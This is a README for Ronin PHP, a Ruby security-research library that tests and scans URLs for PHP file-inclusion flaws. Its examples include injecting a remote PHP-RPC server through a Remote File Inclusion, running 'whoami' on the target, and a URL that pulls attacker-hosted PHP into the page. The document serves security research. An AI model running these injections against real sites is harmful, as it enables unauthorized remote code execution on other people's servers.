 # Ronin PHP

* http://ronin.rubyforge.org/php/
* http://github.com/postmodern/ronin-php
* http://github.com/postmodern/ronin-php/issues
* http://groups.google.com/group/ronin-ruby
* irc.freenode.net #ronin

## DESCRIPTION:

Ronin PHP is a Ruby library for Ronin that provides support for PHP
related security tasks.

Ronin is a Ruby platform for exploit development and security research.
Ronin allows for the rapid development and distribution of code, exploits
or payloads over many common Source-Code-Management (SCM) systems.

### Ruby

Ronin's Ruby environment allows security researchers to leverage Ruby with
ease. The Ruby environment contains a multitude of convenience methods
for working with data in Ruby, a Ruby Object Database, a customized Ruby
Console and an extendable command-line interface.

### Extend

Ronin's more specialized features are provided by additional Ronin
libraries, which users can choose to install. These libraries can allow
one to write and run Exploits and Payloads, scan for PHP vulnerabilities,
perform Google Dorks  or run 3rd party scanners.

### Publish

Ronin allows users to publish and share code, exploits, payloads or other
data via Overlays. Overlays are directories of code and data that can be
hosted on any SVN, Hg, Git or Rsync server. Ronin makes it easy to create,
install or update Overlays.

## FEATURES:

* Provides tests for Location File Inclusion (LFI) and Remote File
  Inclusion (RFI) that are built into the URI::HTTP class.
* Allows for effortless finger-printing of a web-server using LFI.
* Provides a PHP-RPC client and server that are designed to work in hostile
  environments.
* Provides an AJAX PHP-RPC Console.

## SYNOPSIS:

Start the Ronin console with Ronin PHP preloaded:

    $ ronin-php

## EXAMPLES:

Test for Remote File Inclusion (RFI):

    require 'ronin/php/rfi'

    url = URI('http://www.example.com/page.php?lang=en')
    url.has_rfi?
    # => true

Get the first viable RFI vulnerability:

    url.first_rfi
    # => #<Ronin::PHP::RFI: ...>

Scan a URL for RFI vulnerabilities:

    url.rfi_scan
    # => [#<Ronin::PHP::RFI: ...>, ...]

Inject a PHP-RPC Server into a RFI vulnerable URL:

    require 'ronin/rpc/php'

    client = url.rfi.rpc
    client.exec('whoami')
    # => "www-data"

Get a direct URL to the AJAX interface of the PHP-RPC Server:

    client.url
    # => "http://www.example.com/page.php?en=http://ronin.rubyforge.org/static/ronin/php/rpc/server.min.php?"

Test for Local File Inclusion (LFI):

    require 'ronin/php/lfi'

    url = URI('http://www.example.com/site.php?page=home')
    url.has_lfi?
    # => true

Get the first viable LFI vulnerability:

    url.first_lfi
    # => #<Ronin::PHP::LFI: ...>

Scan a URL for LFI vulnerabilities:

    url.lfi_scan
    # => [#<Ronin::PHP::LFI: ...>, ...]

## REQUIREMENTS:

* cssmin >= 1.0.2
* jsmin >= 1.0.1
* [ronin](http://ronin.rubyforge.org/) >= 0.3.0
* [ronin-web](http://ronin.rubyforge.org/web/) >= 0.2.2
* [ronin-exploits](http://ronin.rubyforge.org/exploits/) >= 0.3.2

## INSTALL:

    $ sudo gem install ronin-php

## LICENSE:

Ronin PHP - A Ruby library for Ronin that provides support for PHP
related security tasks.

Copyright (c) 2007-2010 Hal Brodigan (postmodern.mod3 at gmail.com)

This program is free software; you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation; either version 2 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

You should have received a copy of the GNU General Public License
along with this program; if not, write to the Free Software
Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
